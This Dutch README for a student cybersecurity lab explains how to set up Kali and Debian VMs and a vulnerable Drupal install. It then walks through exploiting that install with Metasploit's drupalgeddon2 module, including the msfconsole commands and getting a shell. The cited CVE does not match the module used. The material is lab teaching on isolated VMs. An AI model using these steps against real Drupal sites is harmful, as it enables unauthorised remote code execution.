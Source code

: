 # CSV-NPE-2223

Cybersecurity &amp; Virtualisation - NPE Opdracht 2022-2023

# Deployment manual

## 1. VM installaties

### Informatie

- De VM's zijn geconfigureerd met een host-only netwerk adapter
- De installatie vereist een internet connectie

### Setup op host machine

- Download volgende vdi-bestanden van osboxes.org:

  - [Kali Linux 2022.3](https://sourceforge.net/projects/osboxes/files/v/vb/25-Kl-l-x/2022.3/64bit.7z/download)
  - [Debian 11 - Desktop](https://sourceforge.net/projects/osboxes/files/v/vb/14-D-b/11/Workstation/64bit.7z/download)

- Unzip de vdi-bestanden rechtstreeks in de download folder de huidige gebruiker
- Check of de vdi-bestanden de volgende namen hebben:

  - Kali Linux 2022.3 (64bit).vdi
  - Debian 11 (64bit).vdi

- Voer de volgende commando's uit in powerhshell van de host machine:

  ```powershell
    ./vm-installation.ps1
  ```

## 2. Drupal installatie

### Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

### Informatie

- De exploit is beschikbaar op [exploit-db](https://www.exploit-db.com/exploits/46510)
- De exploit veroorzaakt een unserialize() fout in de `Drupal 7/8 RESTful Web Services` module, waardoor we een remote command execution kunnen uitvoeren
- Deze manual gebruikt de `drupal_drupalgeddon2` [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) van metasploit om de exploit uit te voeren.

### Setup op Debian VM

- Log in op de Debian VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Installeer de mysql repository en selecteer in de prompt `debian buster` en en `mysql-5.7` als versie van mysql:

  ```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb
  ```

- Download en run het installatie script:

  ```bash
    wget https://jobbe.be/csv-npe-2223/drupal-install.sh
    chmod +x drupal-install.sh
    sudo ./drupal-install.sh
  ```

- Na de installatie is drupal beschikbaar op `http://localhost/index.php`
- Configureer Drupal met de volgende gegevens:

  - Database name: `drupal`
  - Database username: `drupal`
  - Database password: `password`
  - Site name: `drupal`
  - Site email address: `drupal@localhost.be`
  - Username: `drupal`
  - Password: `drupal`
  - Default country: `Belgium`
  - Default timezone: `Europe/Brussels`

- Verwijder de standaard web pagina in /var/www/html:

  ```bash
    sudo rm -rf /var/www/CybersecurityNPE2023.local/index.html
  ```

- Activeer de volgende modules onderaan in de `Modules` pagina van Drupal:

  - `Entity API`
  - `RESTful Web Services`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Debian VM

- Check het ip-adres van de Debian VM met het volgende commando:

  ```bash
    ip a
  ```

## 3. Metesploit

### Exploit op Kali VM

- Log in op de Kali VM met de volgende gegevens:

  - Username: `osboxes`
  - Password: `osboxes.org`

- Deactiveer de enp0s3 netwerk adapter en activeer de enp0s8 netwerk adapter in de instellingen van de Kali VMs

- Open een terminal en voer volgende commando's uit:

  ```bash
    sudo msfdb init
    sudo msfconsole
  ```

- Voer volgende commando's uit in de metasploit console om de host te in te stellen (vervang xxx.xxx.xxx.xxx met het ip-adres van de Debian VM):

  ```bash
    use exploit/unix/webapp/drupal_drupalgeddon2
    set LHOST xxx.xxx.xxx.xxx
    set VERBOSE true
    check
  ```

- Voer volgende commando's uit in de metasploit console om de exploit uit te voeren:

  ```bash
    run
  ```

- Als de exploit succesvol is uitgevoerd, kan je een shell openen met volgende commando's:

  ```bash
    whoami
    ls
  ```
